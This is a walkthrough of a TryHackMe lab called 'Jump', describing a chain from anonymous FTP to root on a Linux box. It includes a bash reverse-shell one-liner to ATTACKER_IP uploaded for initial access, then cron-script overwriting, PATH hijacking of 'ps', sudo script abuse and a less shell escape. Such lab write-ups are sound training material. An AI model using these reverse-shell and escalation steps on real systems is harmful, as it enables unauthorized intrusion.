# [Jump — TryHackMe](https://tryhackme.com/room/jump)

**Difficulty:** Easy

**Category:** Linux, Privilege Escalation

---

## Overview

Jump is a privilege-escalation challenge in which you attack a Linux machine and work your way up to `root`. You start as an anonymous user and progress through the following chain:
`recon_user → dev_user → monitor_user → ops_user → root`

---

## 1. Reconnaissance

We start with the target machine's IP address and scan for open ports and listening services using `nmap`:

```bash
nmap -sS -sV -sC -p- -T5 <target> -o port_scan.txt
```

*See full output in [port_scan.txt](./evidence/command_outputs/port_scan.txt)*

There are only two listening services:
- FTP on port 21
- SSH on port 22

The interesting part is that the FTP server allows anonymous access. When I connected to it, I found two directories:

- `pub/`
- `incoming/`

The `incoming/` directory was empty, while the `pub/` directory contained a file called `README.txt`.



## 2. Initial Access

The `README.txt` had the following:

```text
[ recon pipeline ]

All recon jobs must be placed in incoming/.
Files are processed automatically on arrival.
Invalid formats are ignored.
```

This connected with a hint in the challenge description: `You’ve discovered a misconfigured internal automation pipeline running on a Linux server.`

I suspected that a scheduled task was taking files from the FTP server and executing them locally. So, I created a simple reverse shell and uploaded it to the FTP server's `incoming/` directory.

```bash
bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1
```

I then started a listener on my machine:

```bash
nc -nvlp port
```

Soon enough, I got a connection as `recon_user`.


## 3. Privilege Escalation to `dev_user`

After stabilising the shell, I read `recon_user`'s crontab, which called a script at `/opt/recon/scan_uploads.sh`. Before reading the script, I decided to enumerate the directory. The `/opt` directory contained three subdirectories:

- `recon/`
- `dev/`
- `app/`



I then enumerated the `dev/` directory and found a script called `backup.sh`. I suspected that a scheduled task belonging to `dev_user` executed it. The `id` command revealed that `recon_user` belonged to the `dev_user` group, which had write permissions on `backup.sh`. I replaced the script's contents with a Bash reverse shell, started a listener, and waited.

Soon enough I got a connection as `dev_user`.



## 4. Privilege Escalation to `monitor_user`

This phase gave me a lot of trouble. I went down a rabbit hole even though the answer was right in front of me. But first, let me walk you through how I initially enumerated the machine.

I searched for scripts and files with the SUID bit set, but found nothing useful. I also searched for files with excessive capabilities, again without success. I then inspected the system logs in `/var/logs/` and found `monitor.log`, which was owned by `monitor_user`. It listed many processes, and one of them caught my attention.



The process belonged to `monitor_user` and was executing `/usr/local/bin/healthcheck`. Its `PATH` variable had `/home/dev_user/bin` as its first entry. I immediately thought about hijacking a command that wasn't called using its absolute path, so I read the script.



I noticed the `whoami` command and decided to hijack it. That was the rabbit hole I fell into. Interestingly, I had noticed the infinite loop, but instead of stopping to reconsider my approach, I kept trying to find ways to stop and restart the service!

Spoiler alert: it was a service! I kept trying to figure out what was triggering the command. At the time, I didn't know much about system services or how they differ from scheduled tasks, so I wasted a lot of time checking unrelated things.

Would I give up and try another approach after spending hours figuring out what was triggering the command? OF COURSE NOT. I kept trying to restart the service. I clearly didn't have the required privileges, but I continued experimenting with `systemctl`, which was new to me, and looking for ways around the access controls. None of those attempts worked.

Then it hit me: the infinite loop kept calling `ps`. By inspecting the service with `systemctl`, I discovered that the actual `PATH` began with `/opt/dev/bin`, not `/home/dev_user/bin`. There was already a file named `ps` in that directory! After all those wasted hours, the answer had been right in front of me. The irony.

I started a listener, modified the file, and made it executable:

```bash
chmod +x ps
```

Soon enough I got a connection as `monitor_user`.



## 5. Privilege Escalation to `ops_user`

I started by enumerating the available privileges with `sudo -l`.



I could run `/usr/local/bin/deploy.sh` as `ops_user` without entering a password. I read the script and found that it called another script: `/opt/app/deploy_helper.sh`.

Since `monitor_user` owned this script, I modified it, started a listener on my attacking machine, and then ran the deployment script as `ops_user`:

```bash
sudo -u ops_user /usr/local/bin/deploy.sh
```

Soon enough, I got a connection as `ops_user`.



## 6. Privilege Escalation to `root`

I checked my privileges with `sudo -l`:



I could run `less` as `root` without entering a password. I checked [GTFOBins](https://gtfobins.github.io/gtfobins/less/) and used its `less` entry to identify the shell-escape technique. By opening a file with `less` as `root` and entering `!/bin/bash`, I obtained a root shell. This reminded me of `vim`, which supports a similar shell-escape technique.





With that, I achieved the objective and completed the challenge.

## 7. Attack Chain

```
Reconnaissance
      ↓
Anonymous FTP
      ↓
Initial Access
      ↓
Abusing cron jobs
      ↓
dev_user access
      ↓
PATH Hijacking
      ↓
monitor_user access
      ↓
Writable script executed with another user's privileges
      ↓
ops_user access
      ↓
less shell escape
      ↓
Root access
```

---

## 8. Takeaways

- **Enumerate before committing to a hypothesis.** Check directories, permissions, scheduled tasks, running processes, services, and environment variables instead of focusing on one possible route.
- **Understand the difference between cron jobs and system services.** Both can run commands automatically, but they are configured and managed differently. Tools such as `crontab`, `systemctl`, and `systemctl list-timers` can help identify what is executing a script.
- **Inspect the effective environment.** A process's `PATH` may differ from the one you expected. Check the actual service configuration before deciding which directory or command to target.
- **For PATH hijacking, look for repeatedly invoked commands.** A command inside an infinite loop can be a more reliable trigger than one that runs only once at startup.
- **Check file ownership and group permissions.** A writable script that is executed by another user can provide a privilege-escalation path when the execution conditions line up.
- **Always inspect `sudo -l`.** A permitted binary such as `less` may have features that can be abused to escape into a shell. GTFOBins is a useful reference, but verify that the technique applies to the target's configuration.
- **Don't let a rabbit hole consume the whole investigation.** If an approach isn't working, step back, revisit the evidence, and test another hypothesis.

---

## Flags

Flags obtained during the challenge have been redacted from this write-up.

> TryHackMe flags and sensitive challenge credentials are intentionally omitted.
